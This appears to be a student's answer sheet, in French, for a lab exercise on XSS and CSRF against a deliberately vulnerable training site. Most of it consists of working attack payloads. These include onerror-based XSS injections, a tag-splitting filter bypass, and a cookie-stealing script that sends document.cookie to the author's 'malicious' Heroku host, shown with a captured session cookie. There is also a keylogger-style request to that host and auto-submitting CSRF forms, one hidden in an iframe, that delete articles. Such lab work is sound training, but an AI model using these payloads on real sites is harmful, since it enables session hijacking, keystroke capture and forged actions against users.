 # Réponses TP XSS-CSRF

## Partie 1:

### Level 1:

1. ```html
   <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img>
   ```

### Level 2:

1. ```html
   <img src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet") ></img>
   ```

   dans le champ Titre

2. les concepteur du site ont supprimés les balises script

3. Elles sont récupérées en dur sans filtre

4. ```html
   <img src='non_existing_image.jpg' onerror=while(true){ alert("Bonjour l'Internet")} ></img>
   ```

5. ```html
   <img src='non_existing_image.jpg' onerror="var addr = 'https://my-malicious-ws-vincent.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>
   ```

   connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0:1 GET https://my-malicious-website-vincent.herokuapp.com/connect.sid=s%3A-m10uXC7L9XXJypeeOg9SGPGW8937HDS.DCmr35jaEgkiURpg5r0AZaHS0%2BvRfzSow%2Bgp5i5n3C0 404 (Not Found)

### Level 3:

1. ```html
   <i<img>mg src='non_existing_image.jpg' onerror= alert("Bonjour l'Internet")/>
   ```

2. ```javascript
   <i<img>mg src='non_existing_image.jpg' onerror=
       function() {
         var httpRequest;
         window.addEventListener('keypress', f);
   
         function f() {
           httpRequest = new XMLHttpRequest();
   
           if (!httpRequest) {
             console.log('Problème /!\ Impossible de créer une requête XMLHttp');
             return false;
           }
           httpRequest.onreadystatechange = alert;
           httpRequest.open('GET', 'https://my-malicious-website-vincent.herokuapp.com/keylogger.php');
           httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
           httpRequest.send();
         }
   
         function alert() {
           if (httpRequest.readyState === XMLHttpRequest.DONE) {
             if (httpRequest.status === 200) {
               console.log(httpRequest.responseText);
             } else {
               console.log('Error /!\ Request Problem');
             }
           }
         }
       }
   />
   ```

## Partie 2:

1. [Mon site](https://my-malicious-website-vincent.herokuapp.com/)

2. ```php+HTML
   <?php include_once("index.html"); ?>
   
   <form
       action="https://xss-csrf-tp.herokuapp.com/articles/delete"
       method="GET"
       id="42"
   >
   </form>
   
   <script>
       document.getElementById("42").submit();
   </script>
   ```

3. ```php+HTML
   <?php include_once("index.html"); ?>
   
   <iframe name="hiddenIFrame" style="display: none;"></iframe>
   
   <form
       action="https://xss-csrf-tp.herokuapp.com/articles/delete"
       method="about:blank"
       id="42"
       target="hiddenIFrame"
   >
   </form>
   
   <script>
       document.getElementById("42").submit();
   </script>
   ```